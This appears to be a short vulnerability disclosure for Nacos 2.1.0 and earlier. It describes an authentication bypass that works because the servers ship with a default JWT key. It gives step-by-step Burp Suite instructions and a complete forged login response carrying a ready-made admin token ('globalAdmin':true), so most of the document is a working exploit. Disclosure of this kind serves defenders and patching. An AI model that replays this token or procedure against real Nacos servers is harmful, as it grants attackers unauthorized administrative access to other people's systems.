 #### Vuln Impact 

An issue has been discovered in Nacos affecting Nacos <= 2.1.0.Nacos users use the default JWT key to cause an unauthorized access vulnerability. Through this vulnerability, attackers can bypass user name and password authentication and directly log in to the Nacos user

#### Vuln Product

Nacos <= 2.1.0 version

#### Vulnerability reappearance

Step 1：Go directly to Nacos website, fill in any user name and password and use Burpsuite to grab the bag.

![login](img\login.png)

Step 2：Intercept the response packet.

![response](img\response.png)

Step 3: Modify the data packet as follows

```javascript
HTTP/1.1 200
Date: Thu, 10 Nov 2022 01:27:16 GMT
Content-Type: application/json
Content-Length: 13
Connection: close
Vary: Origin
Vary: Access-Control-Request-Method
Vary: Access-Control-Request-Headers
Content-Security-Policy: script-src 'self'
Server: elb

{"accessToken":"eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6MTYxODEyMzY5N30.nyooAL4OMdiByXocu8kL1ooXd1IeKj6wQZwIH8nmcNA","tokenTtl":18000,"globalAdmin":true}
```

![new](img\new.png)

Step 4: Log in successfully after releasing the data packet.

![success](img\success.png)



